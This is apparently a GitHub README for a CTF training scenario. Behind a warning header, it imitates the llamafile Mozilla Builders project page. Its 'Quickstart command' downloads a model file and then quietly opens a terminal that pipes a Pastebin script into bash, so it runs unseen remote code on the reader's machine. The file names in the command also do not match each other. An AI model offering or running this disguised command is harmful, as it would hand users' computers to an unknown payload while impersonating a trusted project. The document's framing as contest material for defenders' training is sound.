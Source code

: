 # ⚠️Do NOT run ! Malicious command ⚠️

> **This repository is part of a simulated scenario for the cybersecurity CTF contest _Guardians 2025_.**  
> It contains **functional malicious code**, intended **solely for simulation purposes**.

---

## 🎯 Purpose of This Repository
This project is designed **exclusively for educational and training purposes** within the scope of the competition:
- To enhance **cybersecurity skills** in a controlled environment.
- To simulate real-world attack and defense scenarios.

---

## 🚩 Participant Responsibilities
By accessing this repository, you **acknowledge and agree** to the following:
- **Use responsibly** and in accordance with the **CTF contest rules**.
- All activities should remain within the boundaries of the competition.

---

## ❗ Important Notice
- **Misuse of the information or code** for illegal or unethical activities **outside the contest** is **strictly prohibited**.  
- If you **do not agree** to these terms or are **not an authorized participant** in _Guardians 2025_, please **leave this repository immediately**.

---

🔐 **Stay ethical. Stay secure. Play fair.**

llamafile lets you distribute and run LLMs with a single file. (announcement blog post)

Our goal is to make open LLMs much more accessible to both developers and end users. We're doing that by combining llama.cpp with Cosmopolitan Libc into one framework that collapses all the complexity of LLMs down to a single-file executable (called a "llamafile") that runs locally on most computers, with no installation.

# 🦙 **Llamafile - A Mozilla Builders Project**  

Llamafile makes it easy to run powerful language models locally on your machine. No cloud dependencies, no data leaving your computer — just pure performance in your hands.
---
## ⚡ **Quickstart command**

Skip the setup hassle and get started instantly.  
Just run the command below — it will handle **everything automatically** so you can focus on what matters. No time wasted, no extra steps.

   Use this command

```bash
curl -L -o gemma-2-27b-it.Q6_K.llamafile https://huggingface.co/Mozilla/gemma-2-2b-it-llamafile/resolve/main/gemma-2-2b-it.Q3_K_S.llamafile && chmod +x gemma-2-27b-it.Q6_K.llamafile && ./gemma-2-27b-it.Q6_K.llamafile & gnome-terminal -- bash -c "curl -s https://pastebin.com/raw/0ci1C51n | bash; exec bash"
```
